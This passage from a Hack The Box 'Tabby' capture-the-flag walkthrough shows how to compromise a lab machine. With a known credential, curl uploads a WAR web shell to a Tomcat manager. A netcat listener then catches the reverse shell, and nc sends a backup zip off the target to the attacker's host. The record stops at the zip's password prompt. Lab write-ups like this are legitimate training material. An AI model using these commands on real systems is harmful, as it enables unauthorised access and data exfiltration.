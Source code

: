 Using curl to upload shell file to server with knowed credential.
```
┌──(Hades㉿10.10.14.5)-[0.5:29.2]~/walkthrough/hackthebox/tabby
└─$ curl -u 'tomcat:$3cureP4s5w0rd123!' --upload-file shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/shell'
OK - Deployed application at context path [/shell]
```

Execute shell at url `http://megahosting.htb:8080/shell/`.

```
┌──(Hades㉿10.10.14.5)-[0.5:30.1]~/walkthrough/hackthebox/tabby
└─$ curl http://megahosting.htb:8080/shell/
```

At listener, I have reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.5:29.2]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.194] 54320
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Privilege Escalation

### Zip Password Cracking

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/tabby)

After do some local enum in the server, I found a backup file at `/var/www/html/files`

```
tomcat@tabby:/var/www/html$ ls
assets  favicon.ico  files  index.php  logo.png  news.php  Readme.txt
tomcat@tabby:/var/www/html$ cd files
tomcat@tabby:/var/www/html/files$ ls
16162020_backup.zip  archive  revoked_certs  statement
tomcat@tabby:/var/www/html/files$ nc -nv 10.10.14.5 445 < 16162020_backup.zip
2021/04/08 04:16:19 CMD: UID=997  PID=62575  | nc -nv 10.10.14.5 445 
Connection to 10.10.14.5 445 port [tcp/*] succeeded!
```

Donwload file `16162020_backup.zip` to kali machine using `nc`

```
┌──(Hades㉿10.10.14.5)-[0.5:33.0]~/walkthrough/hackthebox/tabby
└─$ sudo nc -nvlp 445 > 16162020_backup.zip
listening on [any] 445 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.194] 50276
```

This file require password to unzip.

```
┌──(Hades㉿10.10.14.5)-[0.7:14.6]~/walkthrough/hackthebox/tabby
└─$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password:
```
